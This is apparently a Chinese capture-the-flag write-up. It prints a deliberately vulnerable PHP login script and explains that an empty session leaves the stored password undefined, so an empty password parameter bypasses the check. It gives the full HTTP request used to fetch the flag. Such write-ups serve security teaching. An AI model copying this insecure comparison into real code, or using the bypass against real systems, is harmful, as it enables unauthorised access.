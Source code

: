 # php变量漏洞
``` php
<?php
session_start(); 

include("flag.php");
show_source(__FILE__);

if (isset ($_GET['password'])) {
    if ($_GET['password'] == $_SESSION['password'])
        die ('Flag: '.$flag);
    else
        print '<p>Wrong guess.</p>';
}

mt_srand((microtime() ^ rand(1, 10000)) % rand(1, 10000) + rand(1, 10000));
$_SESSION['password'] = mt_rand(); 

?>
```
当把sessionid设置为空的时候,`$_SESSION['password']`是为定义的，所以password传入空字符串，就可以绕过了。
所以构建
``` txt
GET /?password= HTTP/1.1
Host: 124.160.107.92:28012
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
![picture 1](https://libget.com/gkirito/blog/image/2021/image-20210309ZADmbrPT%402x.png)  


